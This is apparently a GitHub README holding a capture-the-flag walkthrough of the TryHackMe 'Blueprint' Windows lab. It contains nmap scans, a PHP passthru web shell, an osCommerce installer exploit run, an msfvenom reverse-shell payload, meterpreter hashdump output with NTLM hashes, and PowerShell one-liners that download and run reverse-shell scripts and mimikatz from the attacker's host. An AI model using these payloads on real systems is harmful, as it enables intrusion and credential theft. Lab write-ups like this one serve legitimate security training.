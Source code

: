 # blueprint-walkthrough
This is a CTF walkthrough of the machine blueprint on THM

export IP=10.10.51.155
export myIP=10.13.24.71

nmap -F $IP

Nmap scan report for 10.10.85.154
Host is up (0.33s latency).
Not shown: 90 closed tcp ports (conn-refused)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
8080/tcp  open  http-proxy
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 2.63 seconds

nmap -p 80,135,443,3306,8080,49152,49153,49154 -sC -sV -A -T4 $IP

Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-28 23:20 EDT
Stats: 0:01:06 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 96.65% done; ETC: 23:21 (0:00:00 remaining)
Nmap scan report for 10.10.85.154
Host is up (0.25s latency).

PORT      STATE SERVICE  VERSION
80/tcp    open  http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: 404 - File or directory not found.
135/tcp   open  msrpc    Microsoft Windows RPC
443/tcp   open  ssl/http Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-title: Index of /
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
|_
| http-methods: 
|_  Potentially risky methods: TRACE
3306/tcp  open  mysql    MariaDB (unauthorized)
8080/tcp  open  http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
| http-methods: 
|_  Potentially risky methods: TRACE
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
|_
|_http-title: Index of /
49152/tcp open  msrpc    Microsoft Windows RPC
49153/tcp open  msrpc    Microsoft Windows RPC
49154/tcp open  msrpc    Microsoft Windows RPC
Service Info: Hosts: www.example.com, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: BLUEPRINT, NetBIOS user: <unknown>, NetBIOS MAC: 027f2be5a1cf (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 79.26 seconds

gobuster

scan the directory structures with dirb

oscommerce-2.3.4/catalog/install
startup the oscommerce database gui
create an admin user	

upload a simple passthrough to allow webaddress command execution

create a shell.php file:

<?php passthru($_GET['cmd']); ?>

python 43191.py -u http://10.10.51.155:8080/oscommerce-2.3.4 --auth=admin:admin -f shell.php

msfvenom

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.13.24.71 LPORT=7777 -f exe > shell.exe

msfconsole
use exploit/multi/http/oscommerce_installer_unauth_code_exec 

root.txt
THM{aea1e3ce6fe7f89e10cea833ae009bee}

msf6 exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:549a1bcb88e35dc18c7a0b0168631411:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Lab:1000:aad3b435b51404eeaad3b435b51404ee:30e87bf999828446a1c1209ddde4c450:::
meterpreter >

crackstation: 
googleplus

Another way to go from the RCE to shell

Nishang Powershell:
download Invoke-PowerShellTcp.ps1
modify the script to add the command to the end of the script

Invoke-PowerShellTcp -Reverse -IPAddress 10.13.24.71 -Port 80

host an http server on port 80

Download the file to the target machine and run it:

powershell iex(new-object net.webclient).downloadstring('http://10.13.24.71:8000/ips88.ps1')

Now that we have a shell -let's grab the hashed NTLM for user Lab with mimikatz!

download it to my attacker machine and serve it up using python

powershell iex(new-object net.webclient).downloadstring('http://10.13.24.71:8000/mimikatz.exe')

